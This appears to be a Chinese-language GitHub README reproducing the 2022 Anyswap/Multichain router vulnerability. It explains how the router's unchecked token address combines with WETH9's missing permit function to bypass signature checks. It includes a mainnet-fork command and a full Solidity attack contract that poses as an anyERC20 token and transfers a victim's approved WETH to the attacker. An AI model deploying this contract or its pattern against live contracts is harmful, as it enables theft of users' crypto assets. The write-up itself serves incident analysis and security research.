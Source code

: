 ### 事件简述

Anyswap是一个去中心化的跨链交换协议。

于2020年7月开始运行。

2021年7月11日, AnySwap Router V3 受到黑客攻击并损失787万美元。

2021年12月16日, Anyswap宣布更名为Multichain。

2022年1月18日，Multichain于medium发布漏洞预警信息，文章中称发现一严重漏洞，影响6个跨链Token，呼吁代币拥有者尽快转移资产。

尽管Multichain声称已经修复了漏洞，但是在当天还是有攻击者成功窃取了总价值约1400万美金的加密资产。



### 漏洞原理简析

1. `routerV4`合约没有对用户传入的Token地址做合法性校验

2. `WETH9`并不兼容`routerV4`的部分逻辑设计

* 漏洞代码

```js
function anySwap_OutUnderlying_WithPermit(
    address from,
    address token,
    address to,
    uint amount,
    uint deadline,
    uint8 v,
    bytes32 r,
    bytes32 s,
    uint toChainID
) external {
    address _underlying = AnyswapV1ERC20(token).underlying();
    IERC20(_underlying).permit(from, address(this), amount, deadline, v, r, s);
    TransferHelper.safeTransferFrom(_underlying, from, token, amount);
    AnyswapV1ERC20(token).depositVault(amount, from);
    _anySwapOut(from, token, to, amount, toChainID);
}
```


#### EIP-2612

EIP-2612为ERC-20标准增加了一个新的函数：`permit`

它允许用户在链下签署授权的交易，生成任何人都可以使用并提交给区块链的签名。

该标准优化了传统ERC20Token对用户不友好的两步过程：

```
approve + transferFrom
```

简单来说：过去要`approve`后我们才能把代币转给别的合约。
但如果该代币支持了`permit`(例如USDC)，那我们就可以透过在链下用私钥签署产生一个签名，
使用这个签名，别人（其他EOA或者合约地址）就可以帮我们调用`permit`然后把代币转走。


* 然而`WETH9`并不支持`EIP-2612`协议, 没有实现`permit`函数
* 并且如果强行调用`WETH9`上不存在的函数时, `WETH9`不会`Revert`, 交易会继续进行
* AnySwap在功能设计上没有考虑到规避这一点


### 攻击步骤分析

* 在正常使用逻辑中

用户调用`anySwapOutUnderlyingWithPermit`函数, 传入的token地址应为Anyswap官方部署的`anyERC20`地址, 在成功校验用户传入的签名后, 进行与之对应的`ERC20`转账操作.

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/111.png)


事实上Anyswap并没有部署与`WETH9`对应的`anyWETH`合约, 于是攻击者自己部署了一个假的

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/222.png)


这样攻击者就绕过了签名的校验, 把受害人的`WETH`转到了自己的账户

### 复现

* fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@14028473  -l 4294967295
```

* 部署攻击合约

```js

// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.7.0 <0.9.0;

interface AnyswapV4Router {

    function anySwapOutUnderlyingWithPermit(
        address from,
        address token,
        address to,
        uint256 amount,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s,
        uint256 toChainID
    ) external;
    
}

interface WBNB {

    function approve(address guy, uint256 wad) external returns (bool);

    function withdraw(uint256 wad) external;

    function balanceOf(address) external view returns (uint256);

    function transfer(address dst, uint256 wad) external returns (bool);

}



contract poc{

    address AnyswapV4Router_Address = 0x6b7a87899490EcE95443e979cA9485CBE7E71522;

    address WBNB_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    function attack(address innocent_user, uint256 amount) public{

        AnyswapV4Router(AnyswapV4Router_Address).anySwapOutUnderlyingWithPermit(innocent_user,address(this),msg.sender,amount,100000000000000000000,0,"0x","0x",56);

        WBNB(WBNB_Address).transfer(msg.sender, amount);

    }


    function burn(address from, uint256 amount) external returns (bool){
        return true;
    }

    function depositVault(uint amount, address to) external returns (uint){
        return 1;
    }


    function underlying() external view returns (address){
        return WBNB_Address;
    }

}


```


